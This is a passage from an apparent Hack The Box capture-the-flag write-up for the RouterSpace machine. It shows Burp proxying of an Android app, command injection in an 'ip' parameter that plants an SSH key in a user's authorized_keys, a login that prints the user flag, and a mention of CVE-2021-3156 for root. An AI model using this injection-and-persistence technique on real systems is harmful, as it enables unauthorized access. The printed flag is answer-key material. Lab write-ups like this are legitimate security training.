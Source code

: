 ```

If not able to enable proxy, kill all adb and anbox servies and try again.
$ kill ...
$ adb devices
$ adb shell settings put global http_proxy 192.168.101.187:8181
$ anbox.appmgr
```

**Burp Proxy Settings**:
![[Pasted image 20220328140155.png]]


We are now able to capture the `Check Status` API call in Burp.
![[Pasted image 20220328140056.png]]


-------------

### Step 3
We have one data parameter to play with, ``ip``, and we quickly find that it's not sanitized and vulnerable for command injection.

![[Pasted image 20220328141018.png]]

Generate a new SSH key, inject it and login as user Paul. Grab user.txt.
```bash
┌──(void㉿void)-[/htb/routerspace]
└─$ ssh-keygen -t rsa -b 4096 -f paul-id_rsa

┌──(void㉿void)-[/htb/routerspace]
└─$ cat paul-id_rsa.pub  
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC [... snip ...]

Inject the payload in Burp Repeater: 
mkdir -p /home/paul/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC [... snip ...]' > /home/paul/.ssh/authorized_keys

┌──(void㉿void)-[/htb/routerspace]
└─$ ssh paul@routerspace.htb -i paul-id_rsa

paul@routerspace:~$ id && cat user.txt 
uid=1001(paul) gid=1001(paul) groups=1001(paul)
e8f2d33e776f9e917eeab833f5dff7a6
```


--------------

# ROOT

### Step 1 
With some quick manual enumeration we find that the sudo version is old and vulnerable to CVE-2021-3156.
